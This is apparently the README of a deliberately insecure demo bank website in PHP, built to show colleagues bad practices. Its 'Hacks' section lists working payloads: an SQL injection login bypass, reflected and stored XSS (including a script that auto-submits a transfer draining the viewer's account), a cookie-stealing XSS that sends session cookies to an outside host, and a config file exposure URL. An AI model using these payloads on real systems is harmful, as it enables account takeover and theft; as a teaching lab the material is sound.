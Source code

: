 # Crappy bank website

NOTICE! THIS IS A REPO FILLED WITH BAD PRACTICES AND IT WAS USED FOR A DEMO TO MY COLLEGUES. PLEASE DO NOT - I REPEAT - DO NOT USE THIS CODE ANYWHERE! 

## Before you start
Please first import the test data in the db.sql
To run the app just use the php command: `php -S localhost:8080`

Please note, Google Chrome uses an xss auditor. Really nice, but to get the hang of this, please disable it while testing with the following command: 
`/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome  --disable-xss-auditor`

# Hacks

## SQL Injection in login
`swijnberg' OR '1'='1`

## XSS account info
`http://localhost:8080/secret.php?page=account-info&account=NL15RABO037592641%3Cscript%3Ealert(123)%3C/script%3E`

## ID Enummeration account-info
You are able to ennumerate account id's and see other peoples account info.

## Funny stored XSS that drains the account of the one viewining it
```
<script>
document.getElementById(\'transferForm\').elements[0].value = \'NL15RABO037592641\';
document.getElementById(\'transferForm\').elements[1].value = \'1000000\';
document.getElementById(\'transferForm\').elements[2].value = \'Pwned!\';
document.getElementById(\'transferForm\').elements[3].click();</script>
```

## Session Hijack 
`http://localhost:8080/secret.php?name=Stef%3Cscript%3Edocument.location=%27http://somewhere.com/stef/kek-session.php?%27%2Bdocument.cookie;%3C/script%3E`

## arbitrairy file exposure 
`http://localhost:8080/secret.php?page=config.ini&account=NL15RABO037592641`
